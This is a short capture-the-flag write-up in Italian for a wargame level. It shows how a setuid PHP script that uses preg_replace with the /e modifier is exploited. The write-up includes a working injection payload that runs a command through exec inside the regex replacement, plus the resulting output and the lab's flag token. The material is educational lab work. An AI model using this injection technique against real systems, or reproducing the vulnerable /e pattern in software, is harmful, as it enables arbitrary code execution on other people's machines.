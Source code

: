 # Level06
### 1 passaggio:
Eseguendo il comando `ls -l`:
```bash
total 12
-rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```
Notiamo un file eseguibile `level06` e un file php `level06.php`, l'eseguibile è l'interprete php
mentre nello script php troviamo il seguente codice:
```php
     1  #!/usr/bin/php
     2  <?php
     3  function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
     4  function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e","y(\"\\2\")",$a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
     5  $r = x($argv[1], $argv[2]); print $r;
     6  ?>
```

### 2 passaggio:
Nello script è presente la funzione `preg_replace` estremamente dannosa per l'esecuzione 
di codice arbitrario in php soprattutto se mescolata con l'opzione `/e` proprio come:
```php
$a = preg_replace("/(\[x (.*)\])/e","y(\"\\2\")",$a);
```
Poichè l'opzione `/e` fa in modo che la stringa sostitutiva venga valutata come codice php.
[Link ufficiale php](https://www.php.net/manual/en/language.types.string.php)

### 3 passaggio:
Con il comando:
```bash
echo '[x {${exec(getflag)}}]' > /tmp/flag ; ./level06 /tmp/flag 42
```
Abbiamo dunque:
```bash
PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp code on line 1
PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```
